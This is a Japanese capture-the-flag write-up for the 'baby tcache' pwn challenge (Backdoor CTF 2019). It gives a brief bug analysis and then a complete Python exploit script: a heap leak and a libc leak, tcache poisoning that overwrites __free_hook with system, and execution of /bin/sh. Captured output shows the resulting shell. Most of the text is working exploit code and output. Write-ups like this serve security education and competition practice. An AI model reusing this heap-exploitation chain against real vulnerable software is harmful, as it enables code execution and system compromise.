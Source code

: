 # [pwn 201pts] baby tcache - Backdoor CTF 2019
64ビットバイナリで、全部有効です。
```
$ checksec -f babytcache
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               2       babytcache
```
add, edit, free, viewがあります。freeでデータを残すのでdouble freeがあります。freeの回数は制限されていますが5回まで使えます。addも7個まです。
unsorted binサイズのチャンクに入れてfreeすればlibc leakできます。このためにチャンクをoverlapする必要がありますが、ここにfreeが3回必要です。
あとはtcache poisoningに1回（UAFがあるので）、systemを呼ぶだめに1回使います。
```python
from ptrlib import *

def add(index, size, data):
    sock.sendlineafter(">> ", "1")
    sock.sendlineafter(":\n", str(index))
    sock.sendlineafter(":\n", str(size))
    sock.sendafter(":\n", data)
    return

def edit(index, data):
    sock.sendlineafter(">> ", "2")
    sock.sendlineafter(":\n", str(index))
    sock.sendafter(":\n", data)
    return

def delete(index):
    sock.sendlineafter(">> ", "3")
    sock.sendlineafter(":\n", str(index))
    return

def show(index):
    sock.sendlineafter(">> ", "4")
    sock.sendlineafter(":\n", str(index))
    sock.recvuntil(":")
    return sock.recvline()

libc = ELF("./libc.so.6")
sock = Process("./babytcache")
libc_main_arena = 0x3ebc40

add(0, 0x1f8, "A")
add(1, 0x1f8, "B")
add(2, 0x1f8, "/bin/sh")
add(3, 0x88, (p64(0) + p64(0x21)) * 8)

# heap leak
delete(1)
delete(0)
addr_heap = u64(show(0))
logger.info("heap = " + hex(addr_heap))

# libc leak
edit(0, p64(addr_heap - 0x10))
add(4, 0x1f8, "A")
add(5, 0x1f8, p64(0) + p64(0x431))
delete(1)
libc_base = u64(show(1)) - 96 - libc_main_arena
logger.info("libc = " + hex(libc_base))

# tcache poisoning
delete(0)
edit(0, p64(libc_base + libc.symbol("__free_hook")))
add(6, 0x1f8, "dummy")
add(7, 0x1f8, p64(libc_base + libc.symbol("system")))

# get the shell!
delete(2)

sock.interactive()
```

ほい。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=27553)
[+] <module>: heap = 0x555555757460
[+] <module>: libc = 0x7ffff79e4000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
```

# 感想
やるだけ問ですね。
